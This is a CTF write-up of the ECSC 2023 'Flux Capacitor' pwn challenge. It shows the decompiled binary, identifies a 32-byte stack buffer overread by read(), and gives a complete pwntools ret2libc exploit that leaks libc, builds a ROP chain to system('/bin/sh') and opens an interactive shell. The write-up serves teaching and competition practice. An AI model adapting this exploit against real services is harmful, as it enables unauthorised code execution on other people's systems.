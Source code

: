 ```yaml
---
id: 16
title: "ECSC 2023: Flux Capacitor"
subtitle: "ECSC 2023 Day 1: Pwn"
date: "2023.11.02"
tags: "ecsc, ecsc2023, c, pwn, ctf, ctf blog, writeup"
---
```


## Foreword

This challenge was released near the end of Day 1 yet it's a much easier pwn challenge than all the other challenges. It is just a straight forward buffer overflow ret2libc challenge.

# Flux Capacitor

We run `checksec` on the binary:
```bash
[*] '/mnt/e/ctf_archive/ecsc2023/d1/flux_capacitor/flux_capacitor'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

It has Full RELRO and NX enabled, but no canary or PIE.

We open the binary up in IDA to see that it's as straight-forward as it gets.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  setup(argc, argv, envp);
  write(1, "\nFlux capacitor: \n", 0x13uLL);
  write(1, " __         __\n", 0x10uLL);
  write(1, "(__)       (__)\n", 0x11uLL);
  write(1, " \\ \\       / /\n", 0x10uLL);
  write(1, "  \\ \\     / /\n", 0xFuLL);
  write(1, "   \\ \\   / /\n", 0xEuLL);
  write(1, "    \\ \\ / /\n", 0xDuLL);
  write(1, "     \\   /\n", 0xCuLL);
  write(1, "      \\ /\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      | |\n", 0xBuLL);
  write(1, "      |_|\n", 0xBuLL);
  write(1, "      (_)\n", 0xBuLL);
  write(1, "\n\n[*] Year: [1955]", 0x13uLL);
  write(1, "\n[*] Plutonium ", 0x10uLL);
  write(1, "is not available ", 0x12uLL);
  write(1, "to everoyne.\n", 0xEuLL);
  write(1, "\n[Doc]  : We need ", 0x13uLL);
  write(1, "to find a way to", 0x11uLL);
  write(1, " fill the Flux ", 0x10uLL);
  write(1, "Capacitor with ", 0x10uLL);
  write(1, "energy. Any ideas", 0x12uLL);
  write(1, " Marty?\n[Marty]: ", 0x12uLL);
  read(0, buf, 0x100uLL);
  write(1, "\n[Doc]  : This ", 0x10uLL);
  write(1, "will not work..\n\n", 0x12uLL);
  return 0;
}
```

Yep, that's the whole binary.

We can see that `char buf[32]` is declared with size 32 but `read(0, buf, 0x100uLL);` reads `0x100` bytes into `buf`.

Since this challenge is Full RELRO and NX enabled, we cannot directly execute shellcode nor overwrite GOT, hence we will do ret2libc.

Leak `write` address and return to main, calculate libc base, then perform ROP chain to pop shell.
```py
from pwn import *
from exploit import *

# set exploit source, context binary, context log_level, libc
elf = context.binary = ELF("../sols/ezpwn/flux_capacitor_patched", checksec=False)
# context.log_level = 'debug'
libc = ELF("./libc.so.6")

# Run binary 1st time
p = exploit_source("../sols/ezpwn/flux_capacitor_patched", "localhost")

rop = ROP(elf)

# find and pop write, then go back to main
rop.write(1, elf.got['write'])
rop.main()

payload = flat({0x20: p64(0) + rop.chain()})

p.sendlineafter(b"[Marty]:", payload)

# grab output, calculate libc base
p.recvuntil(b"will not work..\n\n\0")

leak = u64(p.recvn(8))
offset = libc.sym.write
libc.address = leak  - offset
info(f"{hex(leak) =}")
info(f"{hex(offset) =}")
success(f"{hex(libc.address) =}")

pause()

# find /bin/sh and call system
rop1 = ROP(libc)

rop1.system(next(libc.search(b"/bin/sh")))
p.sendlineafter(":", flat({ 0x20: p64(0) + rop1.chain() }))

p.interactive()
```

`cat flag.txt` for the flag.